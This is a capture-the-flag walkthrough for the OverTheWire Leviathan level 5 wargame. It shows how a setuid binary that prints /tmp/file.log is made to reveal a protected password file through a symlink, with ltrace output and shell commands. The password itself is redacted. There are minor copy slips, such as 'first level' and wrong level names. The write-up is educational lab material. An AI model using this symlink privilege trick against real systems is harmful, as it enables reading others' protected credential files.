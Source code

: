 This being the first level, we are given the username and password to connect to the instance via ssh.

To connect, `ssh leviathan5@leviathan.labs.overthewire.org -p 2223`.

On being prompted for password, enter **leviathan5**.

After a successful connection, we are presented with a shell.


We are informed that the `Data for the levels can be found in the homedirectories`.

So lets list the files present in the home directory.

```
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

The **leviathan5** file has the setuid bit set and it is executable.


The setuid bit allows the executable to gain the permissions of the owner instead of the user executing it.


In this case, on running the leviathan5 executable, it will gain permissions of leviathan3.


Lets run `leviathan5` and see what happens.

```
leviathan2@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

We will create `file.log` in `/tmp` and run leviathan5 again.

```
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ls -al /tmp/file.log
-rw-r--r-- 1 leviathan5 root 0 Aug 16 10:14 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
leviathan5@leviathan:~$
```

There was no output printed to the screen.

Lets check the `/tmp/file.log` to see if any output was logged in it.

```
leviathan5@leviathan:~$ cat /tmp/file.log
cat: /tmp/file.log: No such file or directory
```

Apparently levithan5 deletes `/tmp/file.log` after execution.


Lets create `/tmp/file.log` again and then run ltrace on leviathan5 to see what library functions it is using.


```
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ls -al /tmp/file.log
-rw-r--r-- 1 leviathan5 root 0 Aug 16 10:18 /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                              = 0x804b008
fgetc(0x804b008)                                                         = '\377'
feof(0x804b008)                                                          = 1
fclose(0x804b008)                                                        = 0
getuid()                                                                 = 12005
setuid(12005)                                                            = 0
unlink("/tmp/file.log")                                                  = 0
+++ exited (status 0) +++
```

We see that leviathan5 opens `/tmp/file.log` and reads it each character.

And after reading each character it checks if the it has reached the end of file (EOF).

On reaching end of file, it closes the file and unlinks it.

Unlinking a file effectively deletes the file. This is why we couldn't find the file after executing leviathan5.


Let us add a few characters to `/tmp/file.log` and run leviathan5 again to see what happens.

```
leviathan5@leviathan:~$ echo 'abc' > /tmp/file.log
leviathan5@leviathan:~$ ls -al /tmp/file.log
-rw-r--r-- 1 leviathan5 root 4 Aug 16 10:27 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
abc
```

We can be sure now that leviathan5 reads and prints each character from `/tmp/file.log` and prints to screen.


To use this to our advantage, we will create a symlink to `/etc/leviathan_pass/levithan6` from `/tmp/file.log`.

```
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ls -al /tmp/file.log
lrwxrwxrwx 1 leviathan5 root 30 Aug 16 10:31 /tmp/file.log -> /etc/leviathan_pass/leviathan6
leviathan5@leviathan:~$ ./leviathan5
<leviathan6_password>
```

With this we get the password for the next level.